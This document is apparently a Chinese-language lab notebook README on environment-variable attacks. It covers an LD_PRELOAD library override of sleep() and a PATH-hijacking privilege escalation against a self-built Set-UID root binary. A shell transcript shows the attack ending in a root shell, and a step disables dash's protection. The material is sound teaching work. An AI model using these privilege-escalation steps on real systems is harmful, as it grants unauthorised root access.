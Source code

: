 # 第二章实验

## 实验1 介绍环境变量

environ.c 程序可以打印进程中所有的环境变量


## 通过动态连接进行的攻击

mytest.c 是一个调用了 sleep()函数的程序，但可通过将sleep.c编译成动态链接库，并export到LD_PRELOAD从而使mytest程序不能正常运行


	使mytest成为Set-UID程序之后，会发现在保护机制的保护下仍可正常运行


```sh
	$ gcc -c sleep.c
	$ gcc -shared -o libmylib.so.1.0.1 sleep.o
	$ export LD_PRELOAD=./libmylib.so.1.0.1
```

## 通过外部程序进行的攻击

	由于dash的保护措施，将/bin/sh指向/bin/zsh来保证实验效果

` $ sudo ln -sf /bin/zsh /bin/sh `


实验结束后记得使用 ` $ sudo ln -sf /bin/dash /bin/sh `将sh改回来

```sh
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ gcc -o vul vul.c
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ sudo chown root vul
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ sudo chmod 4755 vul
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ ./vul 
      十二月 2020        
日 一 二 三 四 五 六  
       1  2  3  4  5  
 6  7  8  9 10 11 12  
13 14 15 16 17 18 19  
20 21 22 23 24 25 26  
27 28 29 30 31        
                    
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ gcc -o cal cal_attack_vul.c 
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ export PATH=.:$PATH
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ ./vul 
bash-4.4# id
uid=1000(yuan) gid=1000(yuan) euid=0(root) 组=1000(yuan)
```


